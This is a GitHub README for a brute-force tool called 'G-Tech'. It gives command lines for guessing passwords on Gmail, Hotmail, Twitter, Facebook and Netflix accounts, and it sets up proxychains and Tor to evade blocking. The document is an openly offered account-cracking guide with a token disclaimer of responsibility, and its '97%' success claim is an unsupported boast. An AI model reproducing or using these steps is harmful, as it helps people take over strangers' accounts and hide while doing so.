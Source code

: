 # G-Tech Brute Force Tool

### I am NOT taking any responsibility!

# Brute Force for Social Accounts

Hacking toolkit for multible social media accounts. Brute force will give you the correct password almost everytime (97%) if you follow the steps below. Works without proxies well but sometimes it gives a error like this:

```bash 
File "/usr/lib/python3.10/smtplib.py", line 739, in login
    (code, resp) = self.auth(
  File "/usr/lib/python3.10/smtplib.py", line 642, in auth
    (code, resp) = self.docmd("AUTH", mechanism + " " + response)
  File "/usr/lib/python3.10/smtplib.py", line 432, in docmd
    return self.getreply()
  File "/usr/lib/python3.10/smtplib.py", line 405, in getreply
    raise SMTPServerDisconnected("Connection unexpectedly closed")
smtplib.SMTPServerDisconnected: Connection unexpectedly closed
 ```
 # Don't let that happen, lets set proxies.
 --------
 
 ## Setting up the proxy
 
 After clonning the repository in **/root** go to-
 ```bash 
 /root/G-Tech/Proxy/Proxy-List.txt
 ```
 Copy 4-5 proxy and go to terminal/terminal emulator
 
 ```bash 
 nano /etc/proxychains4.conf
 ```
 
 Set the proxies as raw. Then reboot your device and "service tor start", now we are fully ready to start hacking!
 --------
 
 # Starting the Tool
 
 G-Tech doesn't need dependencies pr requirements. All it needs is YOU to brute force.
 go to:
 
 ```bash
 /root/G-Tech
 ```
 Then open a terminal there and write:
 
 ```bash
 python3 G-Tech.py 
 ```
 It bring you a menu, 
 Now nano open all-codes.txt, all the codes are there. now you start brute-forcing;
 
 ## Gmail Brute Forcing
 
 ```bash
 python3 G-Tech.py -g/--gmail accounthere@gmail.com -l wordlist here
 python3 G-Tech.py -g/--gmail accounthere@gmail.com -l single password here
 ```
 ## Hotmail Brute Forcing
 
 ```bash
 python3 G-Tech.py -t/--hotmail accounthere@hotmail -l wordlist here
 python3 G-Tech.py -t/--hotmail accounthere@hotmail -l single password here
 ```
 
 ## Twitter Brute Forcing
 
 ```bash
  python3 G-Tech.py -T/--twitter accountnamehere -l wordlist here
  python3 G-Tech.py -T/--twitter accountnamehere -l single password here
  ```
  
  ## Facebook Brute Forcing
  
  ```bash
  python3 G-Tech.py -f/--facebook accountnamehere/username -l wordlist here
  python3 G-Tech.py -f/--facebook accountnamehere/username -l single password here
  ```
  
  ## Netflix Brute Forcing
  VPN Recommended (Like ProtonVPN, OpenVPN or NordVPN)
  
  ```bash
  python3 G-Tech.py -n/--netflix accountnamehere -l wordlist here
  python3 G-Tech.py -n/--netflix accountnamehere -l single password here
  ```
  
  
  
  
  
  
  That was all for me, I hope you won't anything illegal, because I am NOT taking any responsibility!
  
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 

 
